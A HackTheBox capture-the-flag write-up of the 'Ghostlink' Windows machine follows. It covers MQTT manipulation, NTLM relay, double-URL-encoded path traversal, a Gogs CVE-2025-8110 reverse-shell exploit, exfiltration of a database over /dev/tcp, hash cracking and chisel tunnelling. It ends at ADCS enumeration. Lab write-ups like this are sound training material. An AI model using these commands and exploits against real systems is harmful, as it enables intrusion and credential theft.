






# Ghostlink HackTheBox Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Ghostlink |
| **OS** | Windows |
| **Difficulty** | Hard |
| **Domain** | ghostlink.htb |
| **Domain Controller** | dc01.ghostlink.htb |
| **Author** | ctrlzero |

---

## Enumeration

### Nmap

First thing as always run a full port scan and let nmap do the service detection for us.

```bash
sudo nmap --privileged -Pn -sCV -v -n -p- -oX temp_scan.xml 10.129.17.110
```

The scan took a while since i're scanning all 65535 ports, but the output gave us a pretty clear picture of what i're working with.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb)
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
1883/tcp  open  mqtt
2179/tcp  open  vmrdp
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc
49675/tcp open  msrpc
49676/tcp open  ncacn_http
49677/tcp open  msrpc
...
```

Host script results also gave us some useful info:

```
smb2-security-mode: Message signing enabled and required
clock-skew: 6m22s
```

So this is clearly a Windows Server domain controller. The hostname `dc01.ghostlink.htb` was confirmed from the SSL certificate on port 389, and the issuer revealed the ADCS CA name: `ghostlink-GPZ-OP26-SECURE-CA`. That's a useful detail i'll come back to much later.

The most interesting thing on this scan though? Port **1883 MQTT**. That's not something you see every day on a Windows DC. The `mqtt-subscribe` script even shoid that the broker allows anonymous connections and is actively publishing messages. That's our first real lead.



### ib Enumeration

Hitting port 80 brings us to a slick dark-themed landing page for what appears to be an APT group called **Ghost Protocol Zero**. There's some flavor text about encrypted communications and operational security, but no actual functionality just a landing page. Directory fuzzing and vhost enumeration didn't turn up anything useful either.

So i shifted focus to the more interesting service: MQTT.

### MQTT Enumeration

MQTT is a lightiight publish-subscribe messaging protocol, normally used for IoT devices or telemetry systems. The fact that it's running here and allowing anonymous access is a big deal. It means i can subscribe to all topics and just read whatever messages are flying around.

```bash
mosquitto_sub -h $target -t '#' -v
```

The wildcard `#` subscribes to every topic on the broker. What came back was pretty revealing:

```
GhostProtocolZero/energy/grid/frequency {"timestamp":"2026-09-09-16:00:25","node":"node-3","telemetry":{"ip":"10.4.23.11","loadPercent":49,"hz":202527128.2}}
GhostProtocolZero/identity/trust-provider/state {"timestamp":"2026-09-09-16:00:25","node":"node-1","telemetry":{"ip":"10.1.12.34","tokenValidation":"normal","authErrors":36}}
GhostProtocolZero/network/node/healthcheck {"timestamp":"2026-09-09-16:00:25","node":"node-3","telemetry":{"healthy":true,"url":"https://transport.ghostlink.htb/keepalive","lastCheckSecAgo":55,"ip":"10.4.23.11"}}
GhostProtocolZero/systems/node/domain/healthcheck {"timestamp":"2026-09-09-16:00:44","node":"node-4","telemetry":{"healthy":true,"url":"dc01.ghostlink.htb/healthcheck","latencyMs":28,"ip":"10.129.17.166"}}
GhostProtocolZero/systems/node/repository/healthcheck {"timestamp":"2026-09-09-16:00:45","node":"node-5","telemetry":{"healthy":true,"url":"gpz-op26-toolkits.ghostlink.htb/healthcheck","lastCheckSecAgo":43,"responseCode":"200","ip":"172.16.20.20"}}
GhostProtocolZero/systems/node/secureshare/healthcheck {"timestamp":"2026-09-09-16:00:46","node":"node-6","telemetry":{"healthy":true,"url":"gpz-op26-secure.ghostlink.htb/healthcheck","lastCheckSecAgo":18,"responseCode":"200","ip":"172.16.20.10"}}
```

This is a lot to unpack. The MQTT broker is acting as a node tracking and health monitoring system for what looks like critical infrastructure. But more importantly for us, i can see two internal hostnames:

- `gpz-op26-secure.ghostlink.htb` appears to be a secure file sharing app, with a health check being pinged every \~18 seconds
- `gpz-op26-toolkits.ghostlink.htb` appears to be a repository host

i saved these to `/etc/hosts` along with the DC:

```
10.129.46.87    dc01.ghostlink.htb
10.129.46.87    ghostlink.htb
10.129.46.87    gpz-op26-secure.ghostlink.htb
10.129.46.87    gpz-op26-toolkits.ghostlink.htb
```

Browsing to `http://gpz-op26-secure.ghostlink.htb` shows an HTTP Basic Auth prompt this is running on IIS and requires NTLM authentication. Browsing to `http://gpz-op26-toolkits.ghostlink.htb` shows a Gogs (self-hosted Git) installation.

That healthcheck topic for `secureshare` is interesting. The service is actively making outbound HTTP requests to a URL that's defined in the MQTT message payload and i can publish to that topic ourselves since the broker allows anonymous writes. That's a textbook setup for NTLM relay.

---

## Initial Foothold

### MQTT Manipulation & NTLM Relay

The idea here is simple: the health check service reads a URL from the MQTT topic and makes an HTTP request to it. If i change that URL to point at our machine, the server will try to authenticate to us using NTLM and i can relay that authentication to access `gpz-op26-secure.ghostlink.htb`.

Before doing anything, i needed to set up [ghostsurf](https://github.com/senderend/ghostsurf) a tool that handles NTLM relay over SOCKS, letting us use the relayed session through a browser or curl. There's a known bug in the version at the time, the `Config.py` object was missing the `remove_target` attribute, which caused crashes during relay negotiation. i had to patch it manually:

```python
# ghostsurf/lib/relay/utils/config.py around line 52
self.remove_target = False
```

i also made sure proxychains4 was configured to route through the SOCKS proxy ghostsurf would create:

```
# /etc/proxychains4.conf
socks5  127.0.0.1 1080
```

With ghostsurf ready, i published a modified healthcheck message to the MQTT broker, pointing the URL at our machine's IP and the port ghostsurf is listening on:

```bash
mosquitto_pub -h $target \
  -t 'GhostProtocolZero/systems/node/secureshare/healthcheck' \
  -m '{"timestamp":"2026-09-09-16:00:46","node":"node-6","telemetry":{"healthy":true,"url":"http://10.10.15.199:8888","lastCheckSecAgo":18,"responseCode":"200","ip":"172.16.20.10"}}' \
  -r
```

The `-r` flag makes this a **retained** message the broker stores it and delivers it to anyone who subscribes to that topic, including the health check bot the next time it polls. This way i don't have to keep re-publishing manually.

Then i started ghostsurf:

```bash
./ghostsurf.py -t http://gpz-op26-secure.ghostlink.htb -r -k --http-port 8888
```

```
[*] Target: http://gpz-op26-secure.ghostlink.htb
[*] SOCKS proxy started. Listening on 127.0.0.1:1080
[*] Keep-relaying mode ENABLED
[*] Setting up HTTP Server on port 8888
[*] Servers started, waiting for connections
...
[*] (HTTP): Authenticating connection from GHOSTLINK/SVC_CANARY@10.129.46.87 against http://gpz-op26-secure.ghostlink.htb SUCCEED [1]
[*] SOCKS: Adding GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80) to active SOCKS connection. Enjoy
```

The health check bot running as `svc_canary` hit our listener and i relayed its NTLM authentication to the target.now i have an active SOCKS session authenticated as `GHOSTLINK\SVC_CANARY`.



### The Race Condition Problem

Here's where things got frustrating for a bit. The original plan was to use a browser through the SOCKS proxy to interact with the app. That works fine for basic browsing but when i tried to use the file upload feature (which involves the server encrypting the file server-side before returning a download link), the operation took too long.

By the time the server finished processing the upload, the relay session had already timed out. The IIS server drops idle connections, and since our relay session is just a borroid TCP connection, once it goes idle for too long, it dies. The result was this loop:

```
[-] HTTP: Relay connection is dead for session GHOSTLINK/SVC_CANARY
[*] HTTP: Auto-selecting single session for GHOSTLINK/SVC_CANARY@gpz-op26-secure.ghostlink.htb(80)
[-] HTTP: Relay connection is dead for session GHOSTLINK/SVC_CANARY
```

And because i had the `-r` (retained) flag on our MQTT message, the bot kept re-triggering auth attempts but ghostsurf's session slot was already "occupied" by the dead session, so new auths got discarded with `already exists. Discarding`.

it took me almost 3 days troubleshooting this kind of error but then i stop trying to do long operations through the browser. Instead, use `curl` with the `-x socks5h://` flag to send specific requests through the relay session right after it's established before the session has a chance to die.

i also cleared the retained MQTT message first so the bot would stop hammering ghostsurf with redundant auth attempts:

```bash
# Clear the retained message
mosquitto_pub -h $target \
  -t 'GhostProtocolZero/systems/node/secureshare/healthcheck' \
  -r -n
```

Then the pattern became: publish once → sleep 3 seconds for the bot to hit us → immediately fire curl. Like this:

```bash
mosquitto_pub -h $target \
  -t 'GhostProtocolZero/systems/node/secureshare/healthcheck' \
  -m '{"timestamp":"2026-09-16-16:00:46","node":"node-6","telemetry":{"healthy":true,"url":"http://10.10.15.199:8888","lastCheckSecAgo":18,"responseCode":"200","ip":"172.16.20.10"}}' \
&& sleep 3 && \
curl -x socks5h://127.0.0.1:1080 \
  "http://gpz-op26-secure.ghostlink.htb/api/download/<encoded_path>" \
  -o output_file
```

### Path Traversal via Double URL Encoding

The app has a `/api/download/` endpoint that takes a file path. Trying a basic path traversal like `../../../windows/win.ini` returns a 403. URL-encoding it also gives 403. But **double URL-encoding** the path traversal characters bypasses the filter because the server decodes the path twice before passing it to the filesystem.

The encoding works like this:
- `.` → `%2e` → double-encoded: `%252e`
- `\` → `%5c` → double-encoded: `%255c`

i tested this first with `win.ini` to confirm the technique works:

```bash
curl -x socks5h://127.0.0.1:1080 \
"http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%2577%2569%256e%2564%256f%2577%2573%255c%2577%2569%256e%252e%2569%256e%2569" \
-o win.ini
```

```
  % Total    % Received % Xferd
  100    92  100    92    0      0   1533      0
```

92 bytes received. Running `cat win.ini` shoid the real Windows initialization file content the traversal worked.




### Forensic Analysis: Registry Hive

Since i're authenticated as `svc_canary`, i know the service account's home directory is at `C:\Users\svc_canary`. A common forensic technique is to grab the user's `NTUSER.DAT` registry hive it contains a record of recently opened files, which could lead us to interesting artifacts.

```bash
mosquitto_pub -h $target \
  -t 'GhostProtocolZero/systems/node/secureshare/healthcheck' \
  -m '{"timestamp":"2026-09-16-16:00:46","node":"node-6","telemetry":{"healthy":true,"url":"http://10.10.15.199:8888","lastCheckSecAgo":18,"responseCode":"200","ip":"172.16.20.10"}}' \
&& sleep 3 && \
curl -x socks5h://127.0.0.1:1080 \
"http://gpz-op26-secure.ghostlink.htb/api/download/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%2575%2573%2565%2572%2573%255c%2573%2576%2563%255f%2563%2561%256e%2561%2572%2579%255c%256e%2574%2575%2573%2565%2572%252e%2564%2561%2574" \
-o ntuser.dat
```

With the file in hand, i parsed it using **regripper** to extract the RecentDocs key which tracks files the user recently opened:

```bash
regripper -r ntuser.dat -a | grep -i recentdocs -A 10
```

```
recentdocs v.20200427
(NTUSER.DAT) Gets contents of user's RecentDocs key

RecentDocs
Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs
LastWrite Time: 2026-05-13 01:56:02Z

Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.zip
LastWrite Time 2026-05-13 01:56:02Z
MRUListEx = 0
  0 = db.zip
```

`db.zip` was the last zip file this user opened. When Windows tracks a file in RecentDocs, it also automatically creates a `.lnk` (shortcut) file in `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Recent\`. That shortcut file stores the **full path** to the original file exactly what i need.

```bash
curl -x socks5h://127.0.0.1:1080 \
"http://gpz-op26-secure.ghostlink.htb/api/download/..%255C..%255C..%255C..%255C..%255CUsers%255Csvc_canary%255CAppData%255CRoaming%255CMicrosoft%255CWindows%255CRecent%255Cdb.zip.lnk" \
-o db.zip.lnk
```

```bash
file db.zip.lnk
# db.zip.lnk: MS Windows shortcut ... LocalBasePath "C:\Users\svc_canary\Documents\Operations\Management\db.zip"

strings db.zip.lnk
# OPERAT~1
# MANAGE~1
# db.zip
# C:\Users\svc_canary\Documents\Operations\Management\db.zip
# gpz-op26-secure
```

Full path confirmed: `C:\Users\svc_canary\Documents\Operations\Management\db.zip`. Now i can download it directly. The first couple of attempts timed out (race condition again), but on the third try it came through:

```bash
curl -x socks5h://127.0.0.1:1080 \
"http://gpz-op26-secure.ghostlink.htb/api/download/..%255C..%255C..%255C..%255C..%255CUsers%255Csvc_canary%255CDocuments%255COperations%255CManagement%255Cdb.zip" \
-o db.zip
```

```
  % Total    % Received % Xferd
  100 161.8k  100 161.8k    0      0  566.6k   0
```

161KB i got it.

### KeePass Database

Extracting the archive:

```bash
unzip db.zip
# inflating: db.kdbx
# inflating: .key.keyx
```

Two files: a KeePass database (`db.kdbx`) and a key file (`.key.keyx`). The key file is the authentication material instead of a password, the database is unlocked using this file. i open it with `keepassxc-cli`:

```bash
keepassxc-cli ls db.kdbx -k .key.keyx --no-password
```

```
Canary Healthcheck/
Toolkits Repository/
Recycle Bin/
```

Three groups. Let's check what's in `Toolkits Repository`:

```bash
keepassxc-cli ls db.kdbx -k .key.keyx "Toolkits Repository" --no-password
```

```
Nyx Virelli
Kael Draven
Zara Kovacs
Orin Hexley
Vesper Roth
Dax Soren
Lyra Noctis
```

Checking each entry, almost all of them have `Notes: Migrated into centralized password manager` meaning their credentials have been rotated and the database entries are stale. All except one: **Vesper Roth**.

```bash
keepassxc-cli show db.kdbx -k .key.keyx --no-password "Vesper Roth" -s --show-protected
```

```
Title: Vesper Roth
UserName: vroth
Password: mOo03jpsqx8JQYMBwvFP
Notes:
```

No migration note. This credential is likely still active.

i also checked the Recycle Bin out of curiosity:

```bash
keepassxc-cli show db.kdbx -k .key.keyx --no-password "Domain Password Policy"
```

The entry in the Recycle Bin had an attachment a document describing the domain's password policy. The minimum password length was 20 characters. i noted that down because it would be useful for building a targeted wordlist later.

### Gogs Version Fingerprinting & CVE-2025-8110

i tried `vroth:mOo03jpsqx8JQYMBwvFP` on `http://gpz-op26-toolkits.ghostlink.htb` and it worked i're logged in as Vesper Roth on the Gogs instance.

Before touching anything, i did a bit of passive recon on the page source. Gogs embeds a version identifier in the URLs of its static assets:

```html
<link rel="stylesheet" href="/css/gogs.min.css?v=5084b4a9b77a506f5e287e82e945e1c6882b827a">
<script src="/js/gogs.js?v=5084b4a9b77a506f5e287e82e945e1c6882b827a"></script>
```

That 40-character hex string (`5084b4a9b77a506f5e287e82e945e1c6882b827a`) is a Git commit SHA-1 hash. Since Gogs is open source, i can check this directly against the public repo: `https://github.com/gogs/gogs/commit/5084b4a9b77a506f5e287e82e945e1c6882b827a`

The commit message: *"release: update version to 0.13.3"*. So i're dealing with **Gogs 0.13.3**.

A quick search for CVEs affecting this version leads us to **CVE-2025-8110** an authenticated RCE vulnerability. The vulnerability works by abusing the `PutContents` API. Here's the short version of how it works:

1. An attacker creates a repository and pushes a **symlink** that points to `.git/config` inside the repo
2. The `PutContents` API is used to "update" that symlink file but because the server follows the symlink, it actually overwrites `.git/config`
3. The malicious config includes an `sshCommand` parameter with a reverse shell payload
4. Cloning the repo over SSH triggers the `sshCommand` and executes our payload

A previous CVE (CVE-2024-55947) patched path traversal via `../` in filenames, but forgot to account for symlinks which is what CVE-2025-8110 exploits.

i grabbed the PoC from [kayl22's repo](https://github.com/kayl22/cve-2025-8110-GOGS-RCE) and set up a listener:

```bash
nc -lvnp 5555
```

Then ran the exploit:

```bash
python3 cve-2025-8110.py --url http://gpz-op26-toolkits.ghostlink.htb \
  -lh 10.10.15.199 -lp 5555 -U vroth -P mOo03jpsqx8JQYMBwvFP
```

```
══ Step 1 Register account ══
  [*] Skipping registration using provided credentials

══ Step 2 Authenticate ══
  [+] Authenticated as 'vroth'

══ Step 3 Obtain API token ══
  [+] API token obtained: 7f138434ce******

══ Step 4 Create exploit repository ══
  [+] Repository '0th761st' created ID 19

══ Step 5 Push malicious symlink ══
  [+] Malicious symlink pushed to remote repository
  [+] Confirmed: malicious_link is a symlink pointing to '.git/config'

══ Step 6 Write malicious .git/config via PutContents API ══
  [+] .git/config overwritten with malicious sshCommand

══ Step 7 Trigger sshCommand via SSH clone ══
```

And on our listener:

```
connect to [10.10.15.199] from (UNKNOWN) [10.129.46.87] 49878
bash: cannot set terminal process group (684): Inappropriate ioctl for device
bash: no job control in this shell
git@gpz-op26-toolkits:~/data/tmp/local-repo/8$ id
uid=1000(git) gid=1000(git) groups=1000(git)
```

i'm in as the `git` service account on the Gogs server.

---

## Lateral Movement

### Exfiltrating the Gogs Database

Gogs stores everything including user password hashes in a SQLite database at `/opt/gogs/data/gogs.db`. i transferred it to our machine using a simple bash TCP redirect:

On attacker (listener first):
```bash
nc -lvnp 9001 > gogs.db
```

On target:
```bash
cat /opt/gogs/data/gogs.db > /dev/tcp/10.10.15.199/9001
```

```bash
file gogs.db
# gogs.db: SQLite 3.x database, last written using SQLite version 3046001
```

i opened it with sqlite3 and pulled the user table:

```bash
sqlite3 gogs.db
```

```sql
SELECT id, full_name, passwd, salt, is_admin FROM user;
```

```
1  Vesper Roth   12528ba6418a9741578a33e0759b2e8375470269b720069ccab38f5c1cb3c287e4bf319ca7bd700d9d8a7395a4222e5ab326  ...  0
2  Nyx Virelli   8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8  ...  1
3               ec5a7a9fc3417846b7baef2d301e9a0beaecf200fd5f33aa235c72c2b0a206f582eab05332d6e6799c78a45387b2b7fe7014  ...  1
4  Zara Kovacs   a7dbbe7f55d2e4a66e8e7aa1f0fdd5cadddbc3fe4d06a060782e1b5985959461695ea9da089653099b221c0dc326caad01a2   ...  0
5  Orin Hexley   6b286f89df176ae6405dc75cc436f0b6493ed2c29a0b6c1363c111b22b23075ebd790c4015e315ddb3d770c3f7caa97d6620   ...  0
```

The most interesting entry is **Nyx Virelli** (`nvirelli`) an admin account. i also noticed that `nvirelli` corresponds to a local user on the Gogs server (visible in `/home`), so cracking this hash means i might be able to `su` directly.

### Failed Shortcut: SQLite Password Swap

Before going through the cracking process, i tried a quick shortcut directly modifying `nvirelli`'s password hash in the database to something i know. Gogs uses PBKDF2-HMAC-SHA256 for password hashing. i generated the correct hash with Python:

```python
import hashlib
print(hashlib.pbkdf2_hmac('sha256', b'password123', b'abcdefghij', 10000).hex())
```

Then updated the database:

```sql
UPDATE user SET passwd = '<new_hash>', salt = 'abcdefghij' WHERE id = 2;
```

But when i tried to switch to the user on the Gogs server:

```bash
su nvirelli
Password: password123
su: Authentication failure
```

That didn't work the system's local authentication doesn't use Gogs' database. The `su` command checks `/etc/shadow`, not `gogs.db`. So i had to crack the original hash the proper way.

### Cracking the Hash with Hashcat

Gogs hashes aren't in a standard hashcat format out of the box. i used [GogsToHashcat.py](https://github.com/unix-ninja/GogsToHashcat) and the user salt to convert it:

```bash
python3 GogsToHashcat.py -n 10000 DW3YdxPy25 \
  8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8
```

```
sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52ia7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g=
```

This is **PBKDF2-HMAC-SHA256** with 10,000 iterations hashcat mode `10900`. Heavy to crack, but i had an advantage: the domain password policy i found in the KeePass Recycle Bin specified a **minimum password length of 20 characters**. i could use that to trim our wordlist down significantly:

```bash
grep -E '^.{20,}$' /usr/share/wordlists/rockyou.txt > pw_for_hash.txt
wc -l pw_for_hash.txt
# 46602
```

From 14 million passwords down to 46,602. Much more manageable:

```bash
hashcat -a 0 -m 10900 hash.txt pw_for_hash.txt
```

```
sha256:10000:RFczWWR4UHkyNQ==:jZs6AcOgJgs52ia7R2/I5uLGyivYUHyiqAdOzq4/9RAi8W5Bl/5V+cWN1p77BdV0+g=:u47YUclrDiwWxBheaSzI

Session..........: hashcat
Status...........: Cracked
Time.Started.....: Thu Sep 17 10:30:55 2026
Stopped: Thu Sep 17 10:31:29 2026
```

Cracked in 34 seconds: `u47YUclrDiwWxBheaSzI`.

### Pivoting to nvirelli

Back on our shell as `git`, i switched to nvirelli using the cracked password:

```bash
su nvirelli
Password: u47YUclrDiwWxBheaSzI
id
# uid=1001(nvirelli) gid=1001(nvirelli) groups=1001(nvirelli)
```

```bash
cat /home/nvirelli/user.txt
# 2d488c94253f03c7f266REDACTED1db72
```

User flag captured.

---

## Privilege Escalation

### AD Enumeration

Now that i had domain credentials for `nvirelli`, the natural next step was to try to use them against the DC. i tried a few things:

```bash
impacket-GetUserSPNs ghostlink.htb/nvirelli:'u47YUclrDiwWxBheaSzI' -dc-ip 10.129.46.87
# No entries found!

impacket-GetNPUsers ghostlink.htb/nvirelli:'u47YUclrDiwWxBheaSzI' -dc-ip 10.129.46.87
# No entries found!

evil-winrm -u nvirelli -p 'u47YUclrDiwWxBheaSzI' -i 10.129.46.87
# Error: WinRM::WinRMAuthorizationError
```

No Kerberoastable accounts, no AS-REP roastable users, and nvirelli doesn't have WinRM access. i needed a different angle.

### BloodHound Analysis

i ran BloodHound collection using nvirelli's credentials:

```bash
bloodhound-python -u nvirelli -p u47YUclrDiwWxBheaSzI -d ghostlink.htb -c All -ns 10.129.46.87
```

Then loaded the data into BloodHound CE.



The first screenshot shows the domain user landscape. All the accounts i'd been seeing throughout `nvirelli`, `svc_canary`, `zkovacs`, `ohexley`, `vroth`, `dsoren`, `lnoctis` are all standard domain users. Nothing immediately stands out about their group memberships.



The graph does show some interesting edges, `nvirelli` has `GenericAll` on Account Operators and `AddKeyCredentialLink` to Key Admins / Enterprise Key Admins groups. These could potentially be exploited, but they would require more complex chaining.

Rather than going down that rabbit hole, i noticed something else. from our earlier nmap scan found that there's ADCS CA `ghostlink-GPZ-OP26-SECURE-CA` That's a more direct path.

### Setting Up the Chisel Tunnel

The problem: the CA (`gpz-op26-secure.ghostlink.htb`, internal IP `172.16.20.10`) is only accessible from within the internal network. i can't reach it directly from our attacker machine. But i have a shell on the Gogs server, which is on that same internal network.

The solution: set up a **Chisel** reverse SOCKS proxy through the Gogs server so our tools can talk to `172.16.20.10` via proxychains.

i transferred chisel to the target:

```bash
# Attacker: serve chisel over netcat
cat $(which chisel) | nc -lvnp 7000

# Target: receive it
cat < /dev/tcp/10.10.15.199/7000 > /tmp/chisel && chmod +x /tmp/chisel
cp /tmp/chisel /tmp/chisel_new && chmod +x /tmp/chisel_new
#copying it bcs i got some error
```

Started the chisel server on our attacker machine:

```bash
chisel server -p 9000 --reverse
```

Connected from the target:

```bash
./chisel_new client 10.10.15.199:9000 R:1080:socks
```

```
# Attacker server output:
2026/09/17 16:35:49 server: session#1: Open (user=- addr=10.129.46.87:49856 remotes=R:127.0.0.1:1080:socks)
2026/09/17 16:35:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

i had to reconnect a few times (the sessions dropped periodically), but once stable, proxychains was routing through the tunnel just fine.

### Discovering ESC11

With the tunnel active, i ran certipy to enumerate the ADCS setup:

```bash
certipy-ad find -u nvirelli@ghostlink.htb -p 'u47YUclrDiwWxBheaSzI' \
  -dc-ip 10.129.46.87 -stdout > ADCS
```

```
